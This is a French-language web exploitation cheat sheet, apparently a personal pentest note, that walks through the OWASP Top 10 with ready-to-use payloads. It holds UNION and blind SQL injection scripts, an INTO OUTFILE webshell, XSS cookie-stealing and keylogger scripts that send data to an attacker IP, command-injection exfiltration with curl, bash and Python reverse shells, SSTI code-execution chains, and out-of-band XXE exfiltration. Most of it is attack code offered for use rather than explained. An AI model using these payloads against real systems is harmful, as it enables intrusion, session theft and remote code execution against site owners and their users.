





# 🌍 Exploitation Web

> [!info] **C'est quoi ?**
> L'exploitation des applications web est le **vecteur d'entrée #1** des engagements modernes.
> Cette note couvre les classes de vulnérabilités **OWASP Top 10** et leurs exploitations concrètes.

---

## 📚 Toutes les fiches Web détaillées

> [!tip] 🗂️ **62 fiches détaillées** dans la [[Bibliothèque technique|🗂️ Bibliothèque de Techniques]]
> Les sections ci-dessous sont des **résumés rapides** — chaque fiche contient le détail complet (schémas, payloads, détection/défense, pièges).

**Injections** : [[Techniques/Injection SQL|SQLi]] · [[Techniques/Injection de commandes|Cmd]] · [[Techniques/LFI et RFI|LFI/RFI]] · [[Techniques/SSRF|SSRF]] · [[Techniques/SSTI|SSTI]] · [[Techniques/XXE|XXE]] · [[Techniques/NoSQL|NoSQL]] · [[Techniques/LDAP Injection|LDAP]] · [[Techniques/XPATH Injection|XPATH]] · [[Techniques/XSLT Injection|XSLT]] · [[Techniques/SSI Injection|SSI/ESI]] · [[Techniques/CRLF Injection|CRLF]] · [[Techniques/CSV Injection|CSV]] · [[Techniques/LaTeX Injection|LaTeX]] · [[Techniques/Type Juggling|Type Juggling]] · [[Techniques/Regular Expression|Regex/ReDoS]] · [[Techniques/ORM Leak|ORM]]

**Client-side** : [[Techniques/XSS (Cross-Site Scripting)|XSS]] · [[Techniques/DOM Clobbering|DOM Clobbering]] · [[Techniques/CSS Injection|CSS Injection]] · [[Techniques/XS-Leak|XS-Leak]] · [[Techniques/Clickjacking|Clickjacking]] · [[Techniques/Open Redirect|Open Redirect]] · [[Techniques/Tabnabbing|Tabnabbing]] · [[Techniques/CORS|CORS]] · [[Techniques/CSRF|CSRF]] · [[Techniques/HTTP Parameter Pollution|HPP]]

**Auth & API** : [[Techniques/Attaques JWT|JWT]] · [[Techniques/OAuth|OAuth]] · [[Techniques/SAML|SAML]] · [[Techniques/GraphQL|GraphQL]] · [[Techniques/IDOR|IDOR]] · [[Techniques/Account Takeover|ATO]] · [[Techniques/Mass Assignment|Mass Assignment]] · [[Techniques/Business Logic|Business Logic]] · [[Techniques/Hidden Parameters|Hidden Params]] · [[Techniques/Brute Force Rate Limit|Rate Limit]]

**Fichiers** : [[Techniques/Upload de fichiers|Upload]] · [[Techniques/Path Traversal|Path Traversal]] · [[Techniques/Client Side Path Traversal|CSPT]] · [[Techniques/Zip Slip|Zip Slip]]

**Archi & protocoles** : [[Techniques/HTTP Request Smuggling|Smuggling]] · [[Techniques/Web Cache Deception|Cache Deception]] · [[Techniques/Web Sockets|WebSockets]] · [[Techniques/Headless Browser|Headless Browser]] · [[Techniques/DNS Rebinding|DNS Rebinding]] · [[Techniques/Virtual Hosts|VHosts]] · [[Techniques/Reverse Proxy|Reverse Proxy]] · [[Techniques/Prompt Injection|Prompt Injection]]

**Runtime & supply chain** : [[Techniques/Insecure Deserialization|Désérialisation]] · [[Techniques/Prototype Pollution|Prototype Pollution]] · [[Techniques/Java RMI|Java RMI]] · [[Techniques/Insecure Randomness|Randomness]] · [[Techniques/Dependency Confusion|Dep. Confusion]] · [[Techniques/API Key Leaks|API Keys]] · [[Techniques/Insecure Source Code Management|SCM]] · [[Techniques/Insecure Management Interface|Mgt Interface]] · [[Techniques/Google Web Toolkit|GWT]] · [[Techniques/Encoding Transformations|Encodings]] · [[Techniques/External Variable Modification|Ext. Variables]] · [[Techniques/Denial of Service|DoS]] · [[Techniques/CVE Exploits|CVE]]

---
## 1. Vue d'ensemble

### 1.1 OWASP Top 10 — 2021

| Rang | Catégorie | Vulnérabilités clés |
|------|-----------|---------------------|
| A01 | Broken Access Control | IDOR, privilege escalation, CORS |
| A02 | Cryptographic Failures | Données en clair, clés faibles, MD5 |
| A03 | Injection | SQLi, XSS, CMDi, SSTI, LDAP |
| A04 | Insecure Design | Logic flaws, business logic abuse |
| A05 | Security Misconfiguration | Default creds, verbose errors, CORS ouvert |
| A06 | Vulnerable Components | Libs obsolètes, CVE connues |
| A07 | Auth Failures | Brute force, session fixation, credential stuffing |
| A08 | Data Integrity Failures | Désérialisation non safe, CI/CD poisoning |
| A09 | Logging Failures | Pas d'audit trail, logs manipulables |
| A10 | SSRF | Requêtes serveur forgées, cloud metadata |

### 1.2 Taxonomie des attaques web



### 1.3 Kill chain d'exploitation web



### 1.4 Méthodologie — arbre de décision



### 1.5 Approche recommandée par type de test

| Phase | Actions | Outils |
|-------|---------|--------|
| **Recon passive** | DNS, WHOIS, JS endpoints, APIs exposées | amass, subfinder, waybackurls |
| **Recon active** | Fuzzing dossiers, technology fingerprinting | ffuf, wfuzz, WhatWeb, Wappalyzer |
| **Scan vulns** | Templates automatisés + tests manuels | nuclei, nikto, OWASP ZAP |
| **Exploitation** | Payloads ciblés, chaining | Burp Suite, sqlmap, custom scripts |
| **Post-exploit** | Escalation, pivoting, exfil | Voir [[06 - Post-Exploitation|🕹️ Post-Exploitation]] |

---
## 2. Reconnaissance & Découverte

### 2.1 Technology fingerprinting

```bash
# WhatWeb — fingerprint de technologies
whatweb http://192.168.1.10 -a 3

# Wappalyzer (extension navigateur ou CLI)
# Détecte : CMS, frameworks, serveur web, analytics, CDN

# Headers d'information
curl -sI http://192.168.1.10 | grep -iE "server|x-powered|x-aspnet|x-generator"
# Exemples révélateurs :
# Server: Apache/2.4.41  →  version précise = CVE ciblable
# X-Powered-By: PHP/7.2  →  wrapper PHP connus
# X-AspNet-Version: 4.0  →  attack surface .NET
```

### 2.2 robots.txt & sitemap.xml

```bash
# Toujours commencer par là — endpoints souvent cachés
curl http://192.168.1.10/robots.txt
curl http://192.168.1.10/sitemap.xml

# Patterns intéressants dans robots.txt :
# Disallow: /admin
# Disallow: /api/v2/internal
# Disallow: /backup/
# Allow: /api/public/
```

### 2.3 Extraction d'endpoints depuis le JavaScript

```bash
# LinkFinder — trouver les URLs dans les fichiers JS
python3 LinkFinder.py -i http://192.168.1.10/app.js -o cli

# Manuellement avec Burp :
# 1. Rechercher dans le sitemap tous les .js
# 2. RegEx : /[\/]\/[a-zA-Z0-9_-\/]+["']/g
# 3. Chercher les paramètres : /[?&][a-zA-Z_]+=/g

# SecretFinder (pour les API keys)
python3 SecretFinder.py -i http://192.168.1.10/app.js -o cli
```

### 2.4 Découverte d'APIs

```bash
# Patterns à tester
/api/v1/  /api/v2/  /api/internal/  /graphql
/swagger.json  /openapi.json  /api-docs
/swagger-ui.html  /api/docs
/.well-known/

# Paramètres communs
?debug=1  ?test=1  ?admin=1
?format=json  ?output=json
```

### 2.5 Enumération de sous-domaines

```bash
# Amass (passif + actif)
amass enum -passive -d target.com
amass enum -active -d target.com -brute -w subdomains-top1mil-5000.txt

# Subfinder (rapide, passif)
subfinder -d target.com -all

# Concaténation + vérification
cat subs.txt | httpx -silent -status-code -title
```

### 2.6 Directory fuzzing avec ffuf / wfuzz

```bash
# ffuf — ultra rapide
ffuf -u http://192.168.1.10/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302,403

# Extensions spécifiques
ffuf -u http://192.168.1.10/FUZZ -w common.txt -e .php,.html,.js,.txt,.bak,.old

# Bypass 403
ffuf -u http://192.168.1.10/FUZZ -w big.txt -fs 4242 -H "X-Forwarded-For: 127.0.0.1"

# wfuzz
wfuzz -c -z file,wordlist.txt --hc 404 http://192.168.1.10/FUZZ

# Paramètres cachés
ffuf -u http://192.168.1.10/page -w burp-parameter-names.txt -mc 200
```

### 2.7 Virtual hosts & subdomain takeover

```bash
# VHost enumeration
ffuf -u http://TARGET_IP -H "Host: FUZZ.target.com" -w subdomains.txt -mc 200

# Subdomain takeover
dig CNAME old-app.target.com
# → pointe vers some-app.herokuapp.com (supprimé)
# Réclamer le sous-domaine → contrôle total
# Outils : subjack, can-i-take-over-xyz
```

---
## 3. Injection SQL (SQLi)

> 📘 Fiche détaillée : [[Techniques/Injection SQL|🗄️ Injection SQL]]

### 3.1 Types d'injection



### 3.2 Union-based (la plus rentable)

```
# 1. Détecter le nombre de colonnes
' ORDER BY 1-- -
' ORDER BY 2-- -
... (incrémenter jusqu'à erreur)

# 2. Tester UNION
' UNION SELECT NULL,NULL,NULL-- -

# 3. Identifier la colonne affichée
' UNION SELECT 1,2,3-- -

# 4. Dumper la base
' UNION SELECT database(),user(),version()-- -
' UNION SELECT 1,2,table_name FROM information_schema.tables-- -
' UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_name='users'-- -
' UNION SELECT 1,2,concat(user,'::',password) FROM users-- -
```

### 3.3 Error-based

```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version()),0x7e))-- -
' AND UPDATEXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)-- -
```

### 3.4 Blind boolean

```python
import requests
url = "http://192.168.1.10/index.php?id=1"
base = requests.get(url + "' AND 1=1-- -").text
result = ""
for i in range(1, 50):
    for c in range(32, 127):
        payload = f"' AND (SELECT SUBSTRING(database(),{i},1))=CHAR({c})-- -"
        if requests.get(url + requests.utils.quote(payload)).text == base:
            result += chr(c)
            break
print(result)
```

### 3.5 Blind time-based

```
' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)-- -
' AND IF((SELECT LENGTH(database()))=10,SLEEP(5),0)-- -
' AND IF(1=(SELECT 1 FROM (SELECT COUNT(*),(SELECT CONCAT(database(),0x3a,SUBSTRING(password,1,1)) FROM users LIMIT 0,1)a),SLEEP(5),0)-- -
```

### 3.6 Second-Order SQLi

```
# L'injection est stockée puis exécutée plus tard (profil, settings...)
admin'-- -
# Puis l'app cherche "SELECT * FROM users WHERE username='admin'-- -'" → bypass auth
```

### 3.7 Stacked Queries

```
'; DROP TABLE users;-- -
'; INSERT INTO admin VALUES('hacker','hashedpw');-- -
# PostgreSQL et MSSQL : supporté par défaut
# MySQL : possible avec PHP/PDO (mysqli_multi_query)
```

### 3.8 sqlmap — automatisation maîtrisée

```bash
sqlmap -u "http://192.168.1.10/page.php?id=1" --dbs
sqlmap -u "http://192.168.1.10/page.php?id=1" -D db --tables
sqlmap -u "http://192.168.1.10/page.php?id=1" -D db -T users --dump

sqlmap -u "http://..." --technique B,ET --batch --time-sec=2
sqlmap -u "http://..." --data="user=x&pass=y" -p user
sqlmap -u "http://..." -H "Cookie: session=abc" -p session
sqlmap -u "http://..." --dump-all
sqlmap -u "http://..." --os-shell
sqlmap -u "http://..." --file-read=/etc/passwd

sqlmap -u "http://..." --level 5 --risk 3 --tamper=space2comment,randomcase
sqlmap -u "http://..." --tamper=between,modsecurityversioned
sqlmap -u "http://..." --forms --batch --level 3 --risk 2
```

### 3.9 Techniques de WAF bypass

| Technique | Payload | Bypass cible |
|-----------|---------|-------------|
| Commentaire inline | `/**/UN/**/ION/**/SELECT` | Filtres mots-clés |
| Double encoding | `%2527` | Décodage double |
| Char() concat | `CHAR(97,100,109,105,110)` | Filtre chaînes |
| Hex encoding | `0x61646D696E` | Filtre quotes |
| Case alternance | `SeLeCt` | Case-sensitive filter |
| Alternatives syntaxe | `UNION ALL SELECT` | Détection UNION seul |
| Newline/tabs | `%0aUNION%0aSELECT` | Espace filtré |
| Parenthèses | `(1)UNION(SELECT(1))` | Détection classique |
| HPP | `id=1&id=UNION SELECT` | Premier param analysé |

### 3.10 SQLi → RCE

```
# MySQL : INTO OUTFILE
' UNION SELECT '<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
# MySQL : UDF
# CREATE FUNCTION sys_exec RETURNS STRING SONAME 'udf.dll'
# MSSQL : xp_cmdshell
'; EXEC xp_cmdshell 'id'-- -
# PostgreSQL : COPY
```

---
## 4. XSS — Cross-Site Scripting

> 📘 Fiche détaillée : [[Techniques/XSS (Cross-Site Scripting)|🦠 XSS]]

### 4.1 Les 3 types

| Type | Où ça s'exécute | Danger |
|------|----------------|--------|
| **Réfléchi** | Dans la réponse, une fois | Vol de session, phishing |
| **Stocké** | Persisté dans la BDD | Dure dans le temps (admin compris !) |
| **DOM** | Côté JS, jamais envoyé au serveur | Difficile à détecter |

### 4.2 Payloads utiles

```javascript
// Vol de cookie
<script>fetch('http://10.10.14.5/?c='+document.cookie)</script>
<script>new Image().src='http://10.10.14.5/?c='+document.cookie</script>

// Récupération de clés (localStorage)
<script>fetch('http://10.10.14.5/?k='+localStorage.getItem('key'))</script>

// Keylogger léger
<script>document.onkeypress=e=>fetch('http://10.10.14.5/?k='+e.key)</script>

// Bypass filtres


><svg onload=alert(1)>
<scr<script>ipt>alert(1)</scr</script>ipt>
javascript:alert(1)
```

### 4.3 DOM XSS — vecteurs spécifiques

```javascript
// Sources dangereuses
location.hash, location.search, document.referrer, window.name, document.URL

// Puits dangereux
document.write(), element.innerHTML, element.outerHTML,
eval(), setTimeout('...', 1000), jQuery.html()

// Exemple : document.getElementById('out').innerHTML = location.hash.slice(1)
// Payload : #
```

### 4.4 CSP (Content Security Policy) bypass

```
curl -sI http://target.com | grep -i "content-security-policy"

# Bypass courants :
# 1. 'unsafe-inline' présent → inline scripts autorisés
# 2. CDN autorisée avec injection possible
# 3. base-uri non défini → <base href="http://evil.com/">
# 4. googleapis.com → JSONP XSS
# Outil : https://csp-evaluator.withgoogle.com/
```

### 4.5 Filter evasion — techniques avancées

```html
<scr\ipt>alert(1)</scr\ipt>
<scr%00ipt>alert(1)</scr%00ipt>
<script>alert(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<svg onload="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">

<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<video onerror=alert(1)><source>
<audio src=x onerror=alert(1)>
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

### 4.6 Vol de session & Session hijacking

```javascript
// Simple — cookie non HttpOnly
<script>fetch('http://10.10.14.5/?c='+document.cookie)</script>

// Via XSS → voler le token CSRF puis action admin
fetch('/api/csrf-token', {credentials:'include'})
.then(r=>r.json())
.then(d=>fetch('http://10.10.14.5/?csrf='+d.token))
```

### 4.7 XSS → RCE chain

```
# 1. Voler le cookie admin (HttpOnly absent)
# 2. Accéder au panneau d'administration
# 3. Utiliser "Backup" ou "Template" → code serveur
# 4. Reverse shell via la console admin
```

### 4.8 Détection automatisée

```bash
nikto -h http://192.168.1.10 -C all
xsstrike -u "http://192.168.1.10/search?q=test"
```

> [!success] 🏆 **Impact XSS le plus rentable**
> Voler le cookie d'un **admin** (`HttpOnly` souvent absent sur app custom) → session admin → IDOR / CSRF / RCE.

---
## 5. Command Injection & RCE

> 📘 Fiche détaillée : [[Techniques/Injection de commandes|⚡ Injection de commandes]]

### 5.1 Payloads de détection

```bash
;id
|id
`id`
$(id)
%0aid
||id
&&id
```

### 5.2 Blind injection

```bash
# Time-based
; sleep 5
; ping -c 5 127.0.0.1

# DNS exfil
; nslookup $(whoami).attacker.com

# OOB HTTP
; curl http://IP_attaque/log?u=$(whoami)
; wget http://IP_attaque/log?u=$(whoami)
```

### 5.3 Exfiltration de données

```bash
; curl http://IP_attaque/?c=$(whoami)
; cat /etc/passwd | base64 | curl -d @- http://IP_attaque/

# Reverse shell
; bash -i >& /dev/tcp/IP/4444 0>&1
; python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

### 5.4 Filter bypass

```bash
# Bypass espaces
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
{cat,/etc/passwd}
cat</etc/passwd
cat%09/etc/passwd

# Bypass mots-clés
c'a't /etc/passwd
c"a"t /etc/passwd
c\at /etc/passwd
/bin/ca? /etc/passwd
```

### 5.5 WAF bypass

```bash
%253Bid
%2526%2526id
%0a%0did

python -c "import os;os.system('id')"
perl -e 'print `id`'
```

### 5.6 Injection imbriquée

```bash
; ping $(whoami).attacker.com
`curl http://IP/?d=$(cat /etc/passwd | base64)`
```

---
## 6. SSRF — Server-Side Request Forgery

> 📘 Fiche détaillée : [[Techniques/SSRF|🌐 SSRF]]

> [!info] 💡 **Principe**
> Le serveur fait une **requête HTTP à notre place**. On peut cibler **l'intérieur du réseau** (localhost, cloud metadata...).

### 6.1 Types de SSRF

| Type | Description | Détection |
|------|-------------|-----------|
| **Réflexif** | Le serveur affiche la réponse | Réponse visible |
| **Blind** | Pas de réponse visible | Indirecte (timing, DNS) |
| **Semi-blind** | Partiellement visible | Analyse fine |

### 6.2 Cibles réseau

```
http://192.168.1.10/fetch?url=http://127.0.0.1:8080

# Cloud metadata (AWS)
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Cloud metadata (GCP) — header : Metadata-Flavor: Google
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Cloud metadata (Azure) — header : Metadata: true
http://169.254.169.254/metadata/instance?api-version=2021-02-01

# Kubernetes
http://kubernetes.default.svc.cluster.local/
```

### 6.3 Techniques de bypass

```bash
http://127.0.0.1
http://localhost
http://0.0.0.0
http://[::1]
http://2130706433          # 127.0.0.1 décimal
http://0x7f000001          # 127.0.0.1 hex
http://127.1               # abréviation

# DNS rebinding
http://rbndr.glitch.me

# Protocol smuggling
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
file:///etc/passwd

# Redirect-based bypass
http://IP_attaque/redirect.php
```

### 6.4 Rotation sur les ports

```bash
ffuf -w ports.txt -u "http://192.168.1.10/fetch?url=http://127.0.0.1:FUZZ/" -mc 200
# Ports : 80, 443, 8080, 8443, 3306, 5432, 6379, 9200, 27017, 2375
```

### 6.5 SSRF → RCE

```
# Via cloud metadata → credentials → pivoting
# Via Redis (6379) → webshell via gopher
# Via SMTP → email injection
# Via FastCGI (9000) → RCE directe
```

---
## 7. LFI & Path Traversal

> 📘 Fiches détaillées : [[Techniques/LFI et RFI|📂 LFI/RFI (hub)]] · [[Techniques/Path Traversal|🛣️ Path Traversal]]

### 7.1 Payloads de base

```bash
http://192.168.1.10/index.php?page=../../../../etc/passwd
http://192.168.1.10/index.php?page=....//....//....//etc/passwd
http://192.168.1.10/index.php?page=%2e%2e%2f%2e%2e%2fetc%2fpasswd
http://192.168.1.10/index.php?page=..%252f..%252fetc/passwd
```

### 7.2 PHP Wrappers

```
# Lecture
php://filter/convert.base64-encode/resource=config.php

# Écriture (allow_url_include = On)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=

# Exécution (allow_url_include = On)
expect://id
php://input

# Autres : compress.zlib, compress.bzip2, file://, glob://, phar://
```

### 7.3 Log poisoning — deep dive

```bash
# 1. Injecter dans le User-Agent
curl -A '<?php system($_GET["c"]); ?>' http://192.168.1.10/

# 2. Injecter dans le Referer
curl -H "Referer: <?php system($_GET['c']); ?>" http://192.168.1.10/

# 3. LFI sur le log
http://192.168.1.10/index.php?page=/var/log/apache2/access.log&c=id

# Fichiers de log courants :
# /var/log/apache2/access.log, /var/log/nginx/access.log
# /var/log/auth.log, /var/log/mail.log
```

### 7.4 PHP Session Files

```bash
# 1. Injecter : Cookie: PHPSESSID=<php payload>
# 2. LFI sur le fichier session
http://192.168.1.10/?page=/var/lib/php/sessions/sess_ABCDE&c=id
# Chemins : /var/lib/php/sessions/sess_<ID> ou /tmp/sess_<ID>
```

### 7.5 Bypass des filtres d'entrée

```bash
# Null byte (PHP < 5.3.4)
http://target.com/?page=../../../../etc/passwd%00

# Double encoding
http://target.com/?page=..%252f..%252fetc/passwd

# UTF-8 encoding
http://target.com/?page=%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### 7.6 RFI — Remote File Inclusion

```
# allow_url_include = On
http://target.com/?page=http://attacker.com/shell.txt
http://target.com/?page=ftp://attacker.com/shell.txt
```

> [!tip] 💡 **LFI → RCE**
> - **PHP wrappers** : `php://filter` (lecture), `data://` (exécution), `expect://`
> - **Log poisoning** : injecter du PHP dans les logs puis LFI dessus
> - **PHP session files** : injecter dans `PHPSESSID` puis LFI
> - **upload + LFI** : uploader une image avec du PHP dedans

---
## 8. IDOR & problèmes d'autorisation

> 📘 Fiche détaillée : [[Techniques/IDOR|🔢 IDOR]]

### 8.1 Horizontal vs Vertical

```
# HORIZONTAL (user → autre user)
GET /api/user/1  →  200 (moi)
GET /api/user/2  →  200 (⚠️ IDOR)

# VERTICAL (user → admin)
GET /api/admin/dashboard  →  200 (⚠️ pas de vérif role)
PUT /api/user/1/role  →  {"role":"admin"}  →  200 (⚠️ mass assignment + IDOR)
```

### 8.2 Énumération UUID

```
# UUID v1 = timestamp + MAC → calculable
# UUID v4 = aléatoire → non énumérable

# Méthodes alternatives :
# - Réponses d'erreur révélatrices
# - Timing differences (200 vs 404)
# - Mass ID enumeration
GET /api/order/uuid-001
GET /api/order/uuid-002
```

### 8.3 IDOR via API

```bash
# Tous les verbes HTTP
GET /api/users/2
PUT /api/users/2
DELETE /api/users/2
PATCH /api/users/2

# Via body
POST /api/transfer
{"from_account": 1234, "to_account": 5678, "amount": 100}

# Via header
X-User-ID: 2
```

### 8.4 Mass Assignment combo

```
PUT /api/profile
{"name":"hacker", "role":"admin", "is_verified":true, "credits":999999}
```

> [!warning] 🚨 **Le vrai piège IDOR**
> Ne pas tester que l'**horizontal** (user→user). Tester aussi le **vertical** (user→admin) :
> `POST /api/user/1/role` avec `"role":"admin"`.

---
## 9. SSTI — Server-Side Template Injection

> 📘 Fiche détaillée : [[Techniques/SSTI|🖼️ SSTI]]

### 9.1 Détection

```
# Payload polyglotte
{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}

# Si réponse = 49 → potentiellement vulnérable
# {{7*7}} → Jinja2, Twig, Nunjucks
# ${7*7} → Freemarker, Velocity
# <%= 7*7 %> → Ruby ERB
```

### 9.2 Jinja2 (Python) — payload chains

```python
# RCE directe
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}

# Via _mro chain
{{ ''.__class__.__mro__[2].__subclasses__() }}

# Listage des sous-classes

{{ c }}


# Bypass filtres underscores
{{ ().__class__.__bases__[0].__subclasses__() }}
{{ |attr('__cla'+'ss__')|attr('__mro__') }}

# Lecture fichier
{{ config.__class__.__init__.__globals__['open']('/etc/passwd').read() }}
```

### 9.3 Twig (PHP)

```
{{ ['id']|filter('system') }}
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
```

### 9.4 Freemarker (Java)

```
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("id")}

<#assign r=java.lang.Runtime.getRuntime()>
${r.exec("id").inputStream.bufferedReader().readLines()}
```

### 9.5 Velocity (Java)

```
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($ex=$rt.getRuntime().exec('id'))
$ex.waitFor()
```

### 9.6 Outils de détection

```bash
python3 tplmap.py -u "http://target.com/?name=test"
sstimap -u "http://target.com/?param=test"
ffuf -w payloads_ssti.txt -u "http://192.168.1.10/template?name=FUZZ" -fs 0
```

---
## 10. XXE — XML External Entity

> 📘 Fiche détaillée : [[Techniques/XXE|📄 XXE]]

### 10.1 Test basique

```
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<note><name>&xxe;</name></note>
```

### 10.2 Blind XXE — Out-of-Band

```
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://IP_attaque/evil.dtd">
  %dtd;
]>
<note>&send;</note>

<!-- evil.dtd -->
<!ENTITY % all "<!ENTITY send SYSTEM 'http://IP_attaque/?data=%file;'>">
%all;
```

### 10.3 SSRF via XXE

```
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<request><data>&xxe;</data></request>
```

### 10.4 Upload via XXE (ZIP/DOCX)

```
# Un fichier DOCX contient du XML
# 1. Créer un document avec le payload XXE
# 2. Uploader le DOCX → l'app parse le XML → XXE
python3 oxmluploader.py
```

### 10.5 Bypass filtres XXE

```
<!-- Bypass "SYSTEM" filtré -->
<!ENTITY xxe PUBLIC "random" "http://IP/evil.dtd">

<!-- Parameter entities -->
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://IP/?data=%xxe;'>">
%eval;
%exfil;

<!-- Encoding bypass -->
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
```

---
## 11. CSRF — Cross-Site Request Forgery

> 📘 Fiche détaillée : [[Techniques/CSRF|🧭 CSRF]]

### 11.1 Le classique

```html

<form action="http://bank.com/changepass" method="POST" hidden>
  <input name="newpass" value="attacker123">
</form>
